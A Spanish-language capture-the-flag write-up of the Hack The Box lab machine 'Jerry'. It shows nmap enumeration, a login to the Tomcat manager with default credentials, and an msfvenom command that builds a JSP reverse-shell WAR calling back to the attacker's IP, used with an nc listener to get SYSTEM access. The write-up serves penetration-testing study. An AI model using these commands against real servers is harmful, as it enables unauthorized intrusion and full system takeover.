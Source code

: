 ```yaml
---
title: HTB_Jerry
type: docs
prev: docs/savinotes/
---
```

# Jerry {-}

## Introduccion {-}

La maquina del dia se llama Jerry.

El replay del live se puede ver aqui

[![S4vitaar Sauna maquina](https://img.youtube.com/vi/GFED7XNYmXI/0.jpg)](https://www.youtube.com/watch?v=GFED7XNYmXI)

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.95
```
ttl: 127 -> maquina Windows

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.95
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.95 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p8080 10.10.10.95 -oN targeted
```


| Puerto | Servicio | Que se nos occure? | Que falta? |
| ------ | -------- | ------------------ | ---------- |
| 8080   | http     | Web Fuzzing        |            |


### Analyzando la web {-}


#### Http Enum {-}

```bash
nmap --script http-enub -p8080 10.10.10.95 -oN webScan
```



## Vulnerability Assessment {-}

#### Checkear la web {-}

Vemos la pagina por defecto de Tomcat. Vamos en la url 
```bash
 http://10.10.10.95:8080/manager/html 
```
, Intentamos credenciales por defecto:

- admin:admin
- tomcat:tomcat
- tomcat:s3cret

Ya hemos ganado acceso al panel de manager.
## Vuln exploit & Gaining Access {-}

### War malicioso para tomcat {-}

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 -f war -o shell.war
```

Nos ponemos en escucha por el puerto 443

```bash
rlwrap nc -nlvp 443
```

Subimos el war a la web de manager y ya ganamos accesso a la maquina victima. A demas ya estamos como 
```bash
 nt authority\system 
```

